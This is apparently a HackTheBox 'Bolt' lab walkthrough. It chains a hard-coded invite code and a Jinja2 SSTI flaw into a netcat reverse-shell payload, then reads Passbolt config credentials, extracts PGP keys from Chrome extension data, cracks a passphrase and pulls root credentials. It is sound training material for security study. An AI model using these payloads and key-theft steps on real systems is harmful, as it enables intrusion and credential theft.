



# HACKTHEBOX: Bolt
Bolt is a medium difficulty box. It involves downloading a docker container image from `http://bolt.htb` containing source code with a hard-coded invite link to create an account on `http://demo.bolt.htb` and `mail.bolt.htb`. The source code also shows that the web application may be vulnerable to SSTI.
After creating an account, an attacker can exploit the SSTI vulnerability on the demo server's *update user profile* page to gain access to the box.
The user has a Passbolt account with private PGP keys. After obtaining the PGP keys, an attacker can obtain credentials for root by accessing the Passbolt password manager on `http://passbolt.bolt.htb`.

## Recon and Enumeration
An initial nmap scan shows the hostname `passbolt.bolt.htb`. Add `bolt.htb` and `passbolt.bolt.htb` to `/etc/hosts`.


Visiting `http://bolt.htb` brings a user to this page.


The Downloads page of the site shows a download for a docker container image.


Each folder has a tarball. After digging through and extracting these tarballs, there is some interesting information, but we'll come back to that later.

Use ffuf to discover virtual hosts. The names `demo.bolt.htb` and `mail.bolt.htb` were found.


##### Creating an account on demo.bolt.htb
Visiting the demo page automatically redirects to login with an option to create an account. `http://demo.bolt.htb/register` prompts a user to provide a username, password, email, and an *invite code*.


Run `grep -r 'invite'` to search for any invite codes in the docker container image. There are two python files: `forms.py` and `routes.py`.


After looking at both, we find that the invite code is hard-coded in the file `41093412e0da959c80875bb0db640c1302d5bcdffec759a3a5670950272789ad/app/base/routes.py`.


Create an account using the invite code `XNSS-HSJW-3NGU-8XTJ`.


After account creation, you can sign in to both `demo.bolt.htb` and `mail.bolt.htb` with the creds created on registration.


##### Reviewing source code and discovering potential SSTI

After reading the source code, the directory `app/base` contains the contents of the login pages, while the sibling directory `app/home` contains the source of a regular user's profile page.


After looking at the sibling source code, `41093412e0da959c80875bb0db640c1302d5bcdffec759a3a5670950272789ad/app/home/routes.py` contains some interesting functionality. The function `profile` allows a user to input name, experience, and skills, then sends the user an email with the subject "Please confirm profile changes".

Next, the function `confirm_changes` may be vulnerable to SSTI because it uses the `render_template_string` function on the variable *name* which may or may not be validated/sanitized.


As an alternative to an extensive source code review, it may be a good idea to simply grep for the potentially dangerous function `render_template_string` to search for any possibilities of SSTI. Running the command `grep -r 'render_template_string'` shows that there is only `41093412e0da959c80875bb0db640c1302d5bcdffec759a3a5670950272789ad/app/home/routes.py` calls the function.


## Exploitation and user.txt
The vulnerable form is in the `name` parameter in the settings tab of `http://demo.bolt.htb/admin/profile` and this can be tested with a simple `{{7*7}}` payload.


After submitting, confirm the action with an email verification at `http://mail.bolt.htb` and we can see the payload successfully evaluated to `49`.


PayloadsAllTheThings has a nice list of SSTI payloads. We can abuse SSTI to get remote code execution and a reverse shell.


Using this ssti template, craft a payload to replace `id` with a netcat reverse shell: \
`{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.32 9001 >/tmp/f').read() }}`


Next, Upgrade the shell with
```
$ python -c "__import__('pty').spawn('/bin/bash')"
CTRL-Z
stty -echo raw
fg
export TERM=linux
www-data@bolt:~/demo$
```


Earlier in the initial recon stages, we discovered a passbolt server, which is a password manager. Passbolt happens to store cleartext database credentials in the file `/etc/passbolt/passbolt.php`


We can also discover the passbolt server's public and private keys inside of `/etc/passbolt/gpg/`. Download these keys for later use.


The passbolt credentials also happen to be the credentials for user `eddie`.


## Privilege Escalation and root.txt
Eddie has email. The mail notes that the passbolt password manager has a web browser extension.


After a quick google search, it turns out that passbolt has a cli to interact with the API https://github.com/passbolt/passbolt_cli. Passbolt CLI requires PGP keys for the client and the server. We already found the server PGP keys, now we need to search for eddie's PGP keys.

After running linpeas as Eddie, we find the location of google chrome's extension info.


A simple grep command reveals PGP keys in the file `/home/eddie/.config/google-chromeDefault/Local Extension Settings/didegimhafipceonhjepacocaffmoppf/000003.log`


Simply copy and paste the public and private PGP keys from this file.


Now that we have retrieved the public and private keys for eddie and the server, we can run Passbolt CLI to retrieve creds.

Import the server keys into the GPG keyring.


Next, try to import Eddie's keys. Unfortunately, we need a passphrase to import the private key. Eddie's password found earlier does not work.


We can use John the Ripper to brute force the passphrase with the rockyou wordlist. The passphrase is `merrychristmas`.


We can finally import eddie's PGP keys.


After importing the PGP keys, list the fingerprints with `gpg --list-keys`


Use these fingerprints to configure Passbolt CLI.


Passbolt is now configured, and you can now retrieve credentials from the passbolt server.

